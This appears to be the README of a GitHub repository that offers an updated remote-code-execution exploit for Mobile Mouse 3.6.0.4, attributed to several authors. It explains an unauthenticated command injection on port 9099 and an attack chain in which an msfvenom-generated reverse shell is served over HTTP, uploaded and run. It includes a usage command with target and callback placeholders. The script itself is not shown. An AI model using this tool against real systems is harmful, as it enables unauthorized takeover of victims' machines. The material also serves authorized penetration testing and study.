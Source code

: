 # Mobile Mouse 3.6.0.4 RCE Exploit

Exploit by: [Chokri Hammedi](https://www.exploit-db.com/exploits/51010) (08/22)   
Fixed by: [lof1](https://github.com/lof1sec/mobile_mouse_rce/tree/main) (10/23)  
Updated by: x7331 (05/25)  

## Overview
This repository contains an exploit script targeting Mobile Mouse version 3.6.0.4, a remote control software for mobile devices. The exploit allows remote code execution (RCE) by leveraging an unauthenticated command injection vulnerability in the Mobile Mouse server running on port 9099.

## Original Exploit
The original exploit (dated August 9, 2022) works by uploading a crafted executable payload (usually generated manually via msfvenom) to the target machine's temporary directory and then remotely triggering its execution. The payload is served via an external HTTP server manually started by the attacker.

### What This Exploit Does
1. Connects to the Mobile Mouse service on the target IP (port 9099).
2. Sends crafted commands to upload a malicious payload (reverse shell executable) to the remote host.
3. Executes the uploaded payload, resulting in a reverse shell connection back to the attacker.
4. Requires an HTTP server serving the payload executable externally.

## Improvements
The updated script enhances the original exploit with:

1. **Integrated Payload Generation**: The script can now automatically generate the payload executable using msfvenom internally, removing the need to create the payload manually.
2. Uses a **temporary file to store the generated executable**, which is cleaned up after use.
3. **Built-in HTTP Server**: The script launches a background HTTP server to serve the generated (or user-supplied) payload. This removes the manual step of starting a separate HTTP server.

### Flexible Parameters:
Added command-line arguments to specify:

- `--server-port`: Port number for the HTTP server serving the payload (default: 8080).
- `--payload`: Optional argument to provide a custom payload executable path.
- `--lhost` and `--lport`: Local IP and port for reverse shell callback.
- `--target`: Target IP address.

### Improved Usage & Output:
* Clear console output for each major step.
* Cleaner error handling and feedback.
* Proper cleanup of temporary payload files.

### Usage Help & Defaults:
* If no payload is provided, auto-generation is triggered.
* The script prints helpful usage instructions if arguments are missing.

## How to Use

### Prerequisites
1. Python 3 installed.
2. `msfvenom` installed and available in your system path.
3. Network connectivity to the target Mobile Mouse server on port `9099`.

### Basic Usage
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```

This will:
1. Automatically generate a reverse shell payload with `msfvenom`.
2. Start a local HTTP server on port 8080 to serve the payload.
3. Upload and execute the payload on the target.

## Disclaimer
This exploit is intended for educational purposes and authorized penetration testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.
